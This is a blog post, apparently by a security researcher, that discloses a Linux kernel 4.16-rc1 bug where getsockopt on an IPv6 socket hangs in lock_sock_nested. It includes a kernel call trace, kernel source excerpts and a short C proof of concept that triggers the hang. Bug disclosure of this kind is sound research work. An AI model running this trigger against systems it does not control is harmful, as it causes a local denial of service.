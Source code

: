 ```yaml
---
layout: post
title: LK v4.16.x - getsockopt - task hung
comments: true
---
```


getsockopt - task hung in lock_sock_nested

posted & found by [zer0day](https://kozistr.github.io/)

## tl;dr

Posting in a long time :) because of other stuffs... I have a few LK bugs too, but skip it :)..

I just found a bug, task hung in lock_sock_nested on the latest LK (v4.16.0-rc1). Of course, from the conclusion, it's not critical and meaningless bug for me :(.
So i just simply add a short PoC which can reproduce a bug and Call Trace.

## Call Trace (Dump)

Here's a Call Trace. task hung (default 120s).

```c
root@zer0day:~# uname -a
Linux zer0day 4.16.0-rc1+ #14 SMP Wed Feb 14 17:44:19 KST 2018 x86_64 GNU/Linux
root@zer0day:~# gcc -o poc poc.c
root@zer0day:~# ./poc
[  369.631452] INFO: task poc:2481 blocked for more than 120 seconds.
[  369.633340]       Not tainted 4.16.0-rc1+ #14
[  369.634552] "echo 0 > /proc/sys/kernel/hung_task_timeout_secs" disables this message.
[  369.636478] poc             D13984  2481   2464 0x00000000
[  369.638015] Call Trace:
[  369.638825]  ? __schedule+0x2a9/0xa90
[  369.639792]  ? __local_bh_enable_ip+0x7b/0xe0
[  369.640823]  schedule+0x2a/0x80
[  369.641559]  __lock_sock+0xa1/0x130
[  369.642395]  ? finish_wait+0x80/0x80
[  369.643189]  lock_sock_nested+0x9f/0xb0
[  369.643383]  ipv6_getorigdst+0x9e/0x2c0
[  369.643572]  ? __mutex_unlock_slowpath+0x46/0x2b0
[  369.643811]  ? nf_getsockopt+0x47/0x80
[  369.643996]  nf_getsockopt+0x47/0x80
[  369.644185]  ipv6_getsockopt+0x10a/0x170
[  369.644380]  udpv6_getsockopt+0x40/0x80
[  369.644569]  SyS_getsockopt+0x84/0xf0
[  369.644754]  do_syscall_64+0x74/0x210
[  369.644941]  entry_SYSCALL_64_after_hwframe+0x26/0x9b
[  369.645200] RIP: 0033:0x7f340483008a
[  369.645376] RSP: 002b:00007ffd08d09478 EFLAGS: 00000206 ORIG_RAX: 0000000000000037
[  369.645742] RAX: ffffffffffffffda RBX: 0000000000000000 RCX: 00007f340483008a
[  369.646101] RDX: 0000000000000050 RSI: 0000000000000029 RDI: 0000000000000003
[  369.646443] RBP: 00007ffd08d09490 R08: 00007ffd08d09480 R09: 00007f3404aec2e0
[  369.646785] R10: 0000000000000000 R11: 0000000000000206 R12: 0000000000400450
[  369.647148] R13: 00007ffd08d09570 R14: 0000000000000000 R15: 0000000000000000
[  369.647499] 
[  369.647499] Showing all locks held in the system:
[  369.647802] 1 lock held by khungtaskd/439:
[  369.648026]  #0:  (tasklist_lock){.+.+}, at: [<00000000d02fdb21>] debug_show_all_locks+0x37/0x1a0
[  369.648470] 1 lock held by rsyslogd/2361:
[  369.648687]  #0:  (&f->f_pos_lock){+.+.}, at: [<0000000066b64151>] __fdget_pos+0x52/0x60
[  369.649092] 2 locks held by getty/2444:
[  369.649279]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.649714]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.650156] 2 locks held by getty/2445:
[  369.650343]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.650762]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.651203] 2 locks held by getty/2446:
[  369.651390]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.651813]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.652256] 2 locks held by getty/2447:
[  369.652443]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.652864]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.653305] 2 locks held by getty/2448:
[  369.653492]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.653915]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.654356] 2 locks held by getty/2449:
[  369.654542]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.654961]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.655424] 1 lock held by poc/2481:
[  369.655599]  #0:  (sk_lock-AF_INET6){+.+.}, at: [<000000002374a639>] ipv6_getsockopt+0xf2/0x170
[  369.656030] 
[  369.656108] =============================================
[  369.656108]
```

## Bug

With above Call Trace, i can notice, there is a lock_sock_nested in ipv6_getorigdst where the bug happened. 
At **/net/ipv6/netfilter/nf_conntrack_l3proto_ipv6.c:233**,

```c
...
static int
ipv6_getorigdst(struct sock *sk, int optval, void __user *user, int *len)
{
	struct nf_conntrack_tuple tuple = { .src.l3num = NFPROTO_IPV6 };
	const struct ipv6_pinfo *inet6 = inet6_sk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct nf_conntrack_tuple_hash *h;
	struct sockaddr_in6 sin6;
	struct nf_conn *ct;
	__be32 flow_label;
	int bound_dev_if;

	lock_sock(sk);
	tuple.src.u3.in6 = sk->sk_v6_rcv_saddr;
	tuple.src.u.tcp.port = inet->inet_sport;
	tuple.dst.u3.in6 = sk->sk_v6_daddr;
	tuple.dst.u.tcp.port = inet->inet_dport;
	tuple.dst.protonum = sk->sk_protocol;
	bound_dev_if = sk->sk_bound_dev_if;
	flow_label = inet6->flow_label;
	release_sock(sk);
	...
```

As you also know, **lock_sock_nested** looks like below... (*subclass* is zero in this case))

```c
void lock_sock_nested(struct sock *sk, int subclass)
{
	might_sleep(); // debug message is printed by this.
	spin_lock_bh(&sk->sk_lock.slock);
	if (sk->sk_lock.owned)
		__lock_sock(sk);
	sk->sk_lock.owned = 1;
	spin_unlock(&sk->sk_lock.slock);
	/*
	 * The sk_lock has mutex_lock() semantics here:
	 */
	mutex_acquire(&sk->sk_lock.dep_map, subclass, 0, _RET_IP_);
	local_bh_enable();
}
```

In short, maybe, there is a task hung in ipv6_getorigdst while holding the socket lock, so it's blocking other tasks too.

## POC

Here's a PoC code for reproducing.

```c
#define _GNU_SOURCE 

#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

int main() {
	int size = 4;
	void *p = (void *)0;

	int s = socket(0xa, 2, 0);           // socket@inet6_udp
	getsockopt(s, 0x29, 0x50, p, &size); // getsockopt@inet6_int

	return 0;
}
```

**END**